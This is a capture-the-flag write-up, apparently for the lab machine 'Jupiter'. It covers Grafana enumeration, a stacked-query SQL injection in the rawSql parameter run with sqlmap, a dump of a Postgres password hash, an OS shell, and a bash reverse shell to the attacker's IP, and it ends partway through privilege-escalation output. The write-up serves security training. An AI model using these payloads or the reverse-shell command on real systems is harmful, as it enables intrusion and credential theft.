





# Network Enumeration

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ac:5b:be:79:2d:c9:7a:00:ed:9a:e6:2b:2d:0e:9b:32 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEJSyKmXs5CCnonRCBuHkCBcdQ54oZCUcnlsey3u2/vMXACoH79dGbOmIHBTG7/GmSI/j031yFmdOL+652mKGUI=
|   256 60:01:d7:db:92:7b:13:f0:ba:20:c6:c9:00:a7:1b:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHhClp0ailXIfO0/6yw9M1pRcZ0ZeOmPx22sO476W4lQ
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://jupiter.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94%E=4%D=8/29%OT=22%CT=%CU=36284%PV=Y%DS=2%DC=T%G=N%TM=64EDA067%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)
SEQ(SP=101%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11NW7%O6=M53AST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)
```

# SSH

As usual SSH running on port TCP/22 is not our first interaction with the machine, the service is a pretty new version with no known exploits available to the public. Bruteforce is not a intended way and won't be pursuited so far, I will come back as soon I find a valid set of credentials but untill, I will move forward.

# HTTP

From our initial Network Enumeration we found out that HTTP service running on port TCP/80 was available and we found out that the identified VHOST is running on "Jupiter.htb". And manually surfing to the website we are in front of a compary treating "space" related matters:


Before doing anything I will fuzz for both possible other subdomains and hidden web directories:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://jupiter.htb/ -H "Host:FUZZ.jupiter.htb" -fl 8

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://jupiter.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.jupiter.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 8
________________________________________________

[Status: 200, Size: 34390, Words: 2150, Lines: 212, Duration: 52ms]
    * FUZZ: kiosk

:: Progress: [19966/19966] :: Job [1/1] :: 836 req/sec :: Duration: [0:00:19] :: Errors: 0 ::
```

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u "http://jupiter.htb"

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/http_jupiter.htb/_23-08-29_09-50-11.txt

Target: http://jupiter.htb/

[09:50:11] Starting: 
[09:50:12] 301 -  178B  - /js  ->  http://jupiter.htb/js/                   
[09:50:13] 403 -  564B  - /.ht_wsr.txt                                      
[09:50:13] 403 -  564B  - /.htaccess.bak1                                   
[09:50:13] 403 -  564B  - /.htaccess.orig                                   
[09:50:13] 403 -  564B  - /.htaccess_extra
[09:50:13] 403 -  564B  - /.htaccess.sample
[09:50:13] 403 -  564B  - /.htaccessBAK
[09:50:13] 403 -  564B  - /.htaccess_orig
[09:50:13] 403 -  564B  - /.htaccess.save
[09:50:13] 403 -  564B  - /.htaccess_sc                                     
[09:50:13] 403 -  564B  - /.htaccessOLD2                                    
[09:50:13] 403 -  564B  - /.htaccessOLD
[09:50:13] 403 -  564B  - /.htm
[09:50:13] 403 -  564B  - /.html                                            
[09:50:13] 403 -  564B  - /.htpasswds                                       
[09:50:13] 403 -  564B  - /.httr-oauth
[09:50:13] 403 -  564B  - /.htpasswd_test                                   
[09:50:19] 200 -   12KB - /about.html                                       
[09:50:41] 200 -   10KB - /contact.html                                     
[09:50:41] 301 -  178B  - /css  ->  http://jupiter.htb/css/                 
[09:50:45] 301 -  178B  - /fonts  ->  http://jupiter.htb/fonts/             
[09:50:47] 301 -  178B  - /img  ->  http://jupiter.htb/img/                 
[09:50:49] 403 -  564B  - /js/
```

Ok we found another VHOST running on the machine aswering on "Kiosk" but no strange hidden web directories. Drilling down deeper that /js folder only shows the presence of one javascript file which is apparently part of the backend theme and not having any user or interesting informations:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u "http://jupiter.htb/js"

  _|. _ _  _  _  _ _|_    v0.4.3.post1                                                                                                                                                                                                                       
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/http_jupiter.htb/_js_23-08-29_09-52-18.txt

Target: http://jupiter.htb/

[09:52:18] Starting: js/                                                                                                                                                                                                                                     
[09:52:51] 200 -    4KB - /js/main.js                                       
                                                                             
Task Completed
```



Checking manually on these links shows a dead end:


And next trying to check the contact function:


Don't seem lead us anywhere, I guess we have to move forward to the other subdomain.

# KIOSK Subdomain

Moving forward with the other subdomain we are in front of a Grafana portal:


Now trying to identify the running version of grafana shows like it should be 9.5.2:

```
msf6 auxiliary(scanner/http/grafana_plugin_traversal) > run

[-] Detected non-vulnerable Grafana: 9.5.2
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/grafana_plugin_traversal) >
```

And googling around seems like we don't have a exploit avaiable for this specific version. I guess we have to dig deeper! Now trying to click the "Refresh dashboard" function I was able to catch the request sent to the backend DB in Burpsuite:

```
POST /api/ds/query HTTP/1.1
Host: kiosk.jupiter.htb
Content-Length: 485
x-plugin-id: postgres
x-grafana-org-id: 1
x-panel-id: 24
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
content-type: application/json
accept: application/json, text/plain, */*
x-dashboard-uid: jMgFGfA4z
x-datasource-uid: YItSLg-Vz
Origin: http://kiosk.jupiter.htb
Referer: http://kiosk.jupiter.htb/d/jMgFGfA4z/moons?orgId=1&refresh=1d
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"select \n  name as \"Name\", \n  parent as \"Parent Planet\", \n  meaning as \"Name Meaning\" \nfrom \n  moons \nwhere \n  parent = 'Saturn' \norder by \n  name desc;","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":1255}],"range":{"from":"2023-08-29T02:09:32.816Z","to":"2023-08-29T08:09:32.816Z","raw":{"from":"now-6h","to":"now"}},"from":"1693274972816","to":"1693296572816"}
```

As we can see a request is sent to a backend(POSTGRES) in JSON format. I would like to use this to target the backend and see if we can make it work and find a possible SQLi injection:

```
[10:12:58] [INFO] (custom) POST parameter 'JSON rawSql' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable 
for the remaining tests, do you want to include all tests for 'PostgreSQL' extending provided level (1) and risk (1) values? [Y/n] Y
[10:12:58] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[10:12:59] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[10:12:59] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[10:12:59] [INFO] checking if the injection point on (custom) POST parameter 'JSON rawSql' is a false positive
(custom) POST parameter 'JSON rawSql' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 149 HTTP(s) requests:
---
Parameter: JSON rawSql ((custom) POST)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: {"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"select \n  name as \"Name\", \n  parent as \"Parent Planet\", \n  meaning as \"Name Meaning\" \nfrom \n  moons \nwhere \n  parent = 'Saturn' \norder by \n  name desc;;SELECT PG_SLEEP(5)--","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":1255}],"range":{"from":"2023-08-29T02:09:32.816Z","to":"2023-08-29T08:09:32.816Z","raw":{"from":"now-6h","to":"now"}},"from":"1693274972816","to":"1693296572816"}
---
[10:13:14] [INFO] the back-end DBMS is PostgreSQL
[10:13:14] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: PostgreSQL
[10:13:15] [WARNING] schema names are going to be used on PostgreSQL for enumeration as the counterpart to database names on other DBMSes
[10:13:15] [INFO] fetching database (schema) names
[10:13:15] [INFO] fetching number of databases
```

Indeed the "RawSQL" is susceptible to SQLi:

```
10:14:00] [WARNING] on PostgreSQL you'll need to use schema names for enumeration as the counterpart to database names on other DBMSes
available databases [1]:
[*] public
```

The problem is that SQLMap identified 3 DB availabel on the machine:

```
[10:16:43] [WARNING] schema names are going to be used on PostgreSQL for enumeration as the counterpart to database names on other DBMSes
[10:16:43] [INFO] fetching database (schema) names
[10:16:43] [INFO] fetching number of databases
[10:16:43] [INFO] resumed: 3
```

And we can only find one table:

```
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
1
[10:20:51] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                                                                     
[10:21:04] [INFO] adjusting time delay to 1 second due to good response times
moons
Database: public
[1 table]
+-------+
| moons |
+-------+

[10:21:25] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/kiosk.jupiter.htb'

[*] ending @ 10:21:25 /2023-08-29/
```

From what i see here the DB is trimming our connectinon and the moons table in the public database is not that usefull. I guess we have to try to use the SQL Shell and run commands in native code and mayve try to get a RCE in that way instead.

```
sql-shell> SELECT datname FROM pg_database
[10:26:22] [INFO] fetching SQL SELECT statement query output: 'SELECT datname FROM pg_database'
[10:26:22] [INFO] retrieved: 

do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
4
the SQL query provided can return 4 entries. How many entries do you want to retrieve?
[a] All (default)
[#] Specific number
[q] Quit
> A
[10:26:28] [INFO] retrieved: 
[10:26:38] [INFO] adjusting time delay to 1 second due to good response times
postgres
[10:27:10] [INFO] retrieved: moon_namesdb
[10:28:01] [INFO] retrieved: template1
[10:28:35] [INFO] retrieved: template0
SELECT datname FROM pg_database [4]:
[*] postgres
[*] moon_namesdb
[*] template1
[*] template0
```

Now we can see more databases! WHat about the runnign user?

```
sql-shell> Select user;
[10:41:59] [INFO] fetching SQL SELECT statement query output: 'Select user'
[10:41:59] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                                              
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[10:42:07] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[10:42:18] [INFO] adjusting time delay to 1 second due to good response times
grafana_viewer
Select user: 'grafana_viewer'
sql-shell>
```

And then we can dump the grafana users password:

```
10:46:22] [INFO] retrieved: SCRAM-SHA-256$4096:K9IJE4h9f9+tr7u7AZL76w==$qdrtC1sThWDZGwnPwNctrEbEwc8rFpLWYFVTeLOy3ss=:oD4gG69X8qrSG4bXtQ62M83OkjeFDOYrypE3tUv0JOY=
SELECT usename, passwd from pg_shadow [2]:
[*] postgres,  
[*] grafana_viewer, SCRAM-SHA-256$4096:K9IJE4h9f9+tr7u7AZL76w==$qdrtC1sThWDZGwnPwNctrEbEwc8rFpLWYFVTeLOy3ss=:oD4gG69X8qrSG4bXtQ62M83OkjeFDOYrypE3tUv0JOY=
```

I will try to crack the hash in background but i'm not sure will work anyway. From my test seems like not only SQL-Shell is active but the OS shell as well!

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# sqlmap -r jupiter.req --batch --dbms PostgreSQL -D public -T moons --os-shell
        ___
       __H__                                                                                                                                                                                                                                                 
 ___ ___[,]_____ ___ ___  {1.7.8#stable}                                                                                                                                                                                                                     
|_ -| . [(]     | .'| . |                                                                                                                                                                                                                                    
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:59:20 /2023-08-29/

[10:59:20] [INFO] parsing HTTP request from 'jupiter.req'
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[10:59:21] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON rawSql ((custom) POST)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: {"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"select \n  name as \"Name\", \n  parent as \"Parent Planet\", \n  meaning as \"Name Meaning\" \nfrom \n  moons \nwhere \n  parent = 'Saturn' \norder by \n  name desc;;SELECT PG_SLEEP(5)--","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":1255}],"range":{"from":"2023-08-29T02:09:32.816Z","to":"2023-08-29T08:09:32.816Z","raw":{"from":"now-6h","to":"now"}},"from":"1693274972816","to":"1693296572816"}
---
[10:59:21] [INFO] testing PostgreSQL
[10:59:21] [INFO] confirming PostgreSQL
[10:59:21] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: PostgreSQL
[10:59:21] [INFO] fingerprinting the back-end DBMS operating system
[10:59:21] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                                              
[10:59:25] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[10:59:25] [INFO] the back-end DBMS operating system is Linux
[10:59:25] [INFO] testing if current user is DBA
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[10:59:31] [INFO] retrieved: 
[10:59:41] [INFO] adjusting time delay to 1 second due to good response times
1
[10:59:42] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[10:59:42] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y
[10:59:47] [INFO] retrieved: postgres
command standard output: 'postgres'
os-shell> pwd
do you want to retrieve the command standard output? [Y/n/a] Y
[11:00:28] [INFO] retrieved: /var/lib/postgresql/14/main
command standard output: '/var/lib/postgresql/14/main'
os-shell>
```

Then running a revshell withing a bash -c "COMMAND here" get's us a working RCE:

```
No output
os-shell> bash -c "/bin/bash -i >& /dev/tcp/10.10.16.4/5555 0>&1"
do you want to retrieve the command standard output? [Y/n/a] Y
```

# USER.txt

Now that we gained our first RCE we are logged in as postgres user and must find a way to lateral move to other users so checking the passwd file we can see 2 other users execept root:

```
postgres@jupiter:/$ cat /etc/passwd  
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
juno:x:1000:1000:juno:/home/juno:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
fwupd-refresh:x:113:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
grafana:x:115:121::/usr/share/grafana:/bin/false
jovian:x:1001:1002:,,,:/home/jovian:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

At this standing point we don't have access to their home directory so I will start by checking configuration of postgre and WEB sites to hunt for possible hidden credentials. So far nothign hidden into main website:

```
postgres@jupiter:/var/www/jupiter.htb$ ls -al
ls -al
total 104
drwxr-xr-x  8 root     root      4096 May  4 18:59 .
drwxr-xr-x  4 root     root      4096 May  4 18:59 ..
-rw-rw-r--  1 www-data www-data 12613 Mar  7 11:54 about.html
-rw-rw-r--  1 www-data www-data 10141 Feb 28 19:11 contact.html
drwxrwxr-x  2 www-data www-data  4096 May  4 18:59 css
drwxrwxr-x  2 www-data www-data  4096 May  4 18:59 fonts
drwxrwxr-x 12 www-data www-data  4096 May  4 18:59 img
-rw-rw-r--  1 www-data www-data 19680 Mar  1 07:58 index.html
drwxrwxr-x  2 www-data www-data  4096 May  4 18:59 js
-rw-rw-r--  1 www-data www-data 11913 Feb 28 19:58 portfolio.html
drwxrwxr-x  2 www-data www-data  4096 May  4 18:59 sass
-rw-rw-r--  1 www-data www-data 11969 Mar  1 10:11 services.html
drwxrwxr-x  2 www-data www-data  4096 May  4 18:59 Source
```

I can see a strange binary under /opt:

```
postgres@jupiter:/opt$ ls -al
ls -al
total 12
drwxr-xr-x  3 root   root    4096 May  4 18:59 .
drwxr-xr-x 19 root   root    4096 May  4 18:59 ..
drwxrwx---  4 jovian science 4096 May  4 18:59 solar-flares
postgres@jupiter:/opt$
```

I will upload a Linpeas script and check if I can find any credentials or interesting PE:

```
══════════════════════════════╣ System Information ╠══════════════════════════════                                                                                                                                                                           
                              ╚════════════════════╝                                                                                                                                                                                                         
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                                                                                                                                                                           
Linux version 5.15.0-72-generic (buildd@lcy02-amd64-035) (gcc (Ubuntu 11.3.0-1ubuntu1~22.04.1) 11.3.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #79-Ubuntu SMP Wed Apr 19 08:22:18 UTC 2023                                                                    
Distributor ID: Ubuntu
Description:    Ubuntu 22.04.2 LTS
Release:        22.04
Codename:       jammy

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                                                                                                                              
Sudo version 1.9.9

                ╔════════════════════════════════════════════════╗
════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════                                                                                                                                                                           
                ╚════════════════════════════════════════════════╝                                                                                                                                                                                           
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes 
postgres    1182  0.0  0.7 218304 30336 ?        Ss   07:34   0:00 /usr/lib/postgresql/14/bin/postgres -D /var/lib/postgresql/14/main -c config_file=/etc/postgresql/14/main/postgresql.conf
jovian      1170  0.0  1.6  81380 66528 ?        S    07:34   0:01 /usr/bin/python3 /usr/local/bin/jupyter-notebook --no-browser /opt/solar-flares/flares.ipynb
grafana     1202  0.4  2.9 1696860 118552 ?      Ssl  07:34   0:25 /usr/share/grafana/bin/grafana server --config=/etc/grafana/grafana.ini --pidfile=/run/grafana/grafana-server.pid --packaging=deb cfg:default.paths.logs=/var/log/grafana cfg:default.paths.data=/var/lib/grafana cfg:default.paths.plugins=/var/lib/grafana/plugins cfg:default.paths.provisioning=/etc/grafana/provisioning

╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                                                                                
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                                                                                                                                                                            
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      1182/postgres       
tcp6       0      0 :::22                   :::*                    LISTEN      -                   


╔══════════╣ Superusers
root:x:0:0:root:/root:/bin/bash                                                                                                                                                                                                                              

╔══════════╣ Users with console
jovian:x:1001:1002:,,,:/home/jovian:/bin/bash                                                                                                                                                                                                                
juno:x:1000:1000:juno:/home/juno:/bin/bash
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
root:x:0:0:root:/root:/bin/bash

╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)                                                                                                                                                                                                                       
uid=1000(juno) gid=1000(juno) groups=1000(juno),1001(science)
uid=1001(jovian) gid=1002(jovian) groups=1002(jovian),27(sudo),1001(science)

═╣ PostgreSQL connection to template0 using postgres/NOPASS ........ No
═╣ PostgreSQL connection to template1 using postgres/NOPASS ........ Yes                                                                                                                                                                                     
═╣ PostgreSQL connection to template0 using pgsql/NOPASS ........... No
═╣ PostgreSQL connection to template1 using pgsql/NOPASS ........... No     


drwxr-xr-x 2 root root 4096 May  4 16:10 /etc/nginx/sites-enabled


╔══════════╣ Analyzing Ldap Files (limit 70)
The password hash is from the {SSHA} to 'structural'                                                                                                                                                                                                         
drwxr-xr-x 2 root root 4096 May  4 10:48 /etc/ldap

drwxr-xr-x 2 root root 4096 May 30 13:49 /usr/share/grafana/public/app/features/admin/ldap


